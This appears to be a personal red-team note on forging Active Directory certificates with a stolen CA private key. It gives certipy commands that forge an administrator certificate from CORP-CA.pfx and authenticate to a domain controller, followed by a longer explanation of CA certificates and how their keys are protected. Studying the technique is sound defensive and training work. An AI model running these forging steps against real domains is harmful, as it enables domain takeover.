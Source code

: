 
---

# Idea

If you were able to get the `private key` of the CA then you can generate any certificate as you like.

The private key is in `CORP-CA.pfx` and we will create certificate that is for the administrator:
```
> certipy forge \
    -ca-pfx 'CORP-CA.pfx' -upn 'administrator@corp.local' \
    -sid 'S-1-5-21-...-500' -crl 'ldap:///'    

[*] Saving forged certificate and private key to 'administrator_forged.pfx'
[*] Wrote forged certificate and private key to 'administrator_forged.pfx'

> certipy auth -pfx 'administrator_forged.pfx' -dc-ip '10.0.0.100'
```

---
# How to get private key of CA? 

## CA certificate

### 🔑 What is a CA certificate?

- A **CA certificate** is a certificate where the `Basic Constraints` extension has `CA=TRUE`.    
- ==Its private key can be used for **signing other certificates** (issuing them), not just authenticating itself.==
- It’s the “root of trust” in a PKI hierarchy: all other certs (users, machines, services) chain back up to one or more CA certs.
Think of a CA cert as the **master signing authority** in that environment:
- **Root CA certificate** = the absolute trust anchor. Self-signed (issuer == subject).
- **Subordinate CA (Issuing CA) certificate** = signed by another CA, delegated to issue certs for users/machines.
---
## ⚙️ How CA certificates are different from “normal” certs
1. **Key Usage**
    - End-entity certs: usually limited to `Digital Signature`, `Key Encipherment`, etc.
    - CA certs: must include `keyCertSign` and `cRLSign`. Without those, they can’t sign other certs.
2. **Basic Constraints**
    - End-entity certs: `CA=FALSE`.
    - CA certs: `CA=TRUE`. May also include a `pathlen` constraint (limiting how many subordinate CAs can be issued below it).
3. **Template / issuance**
    - In Active Directory Certificate Services (AD CS), CA certificates are not usually requested like normal user/machine certs. They’re created during **CA installation**.
    - There is a “CA” template (like in your output: `Template: CA, Root Certification Authority`) but it’s only usable for CA setup, not for normal users.
4. **Storage & protection**
    - Root CA private keys are usually offline (protected in HSM or at least not online all the time).
    - Issuing CA private keys are online, but ideally HSM-protected, with strict ACLs.
    - Normal user/machine cert private keys are just in software KSP by default.
---
## 🧾 Can you request a CA certificate normally?
No — not in a healthy environment:
- **Normal users** cannot request CA certificates. The CA template isn’t published for them to enroll against.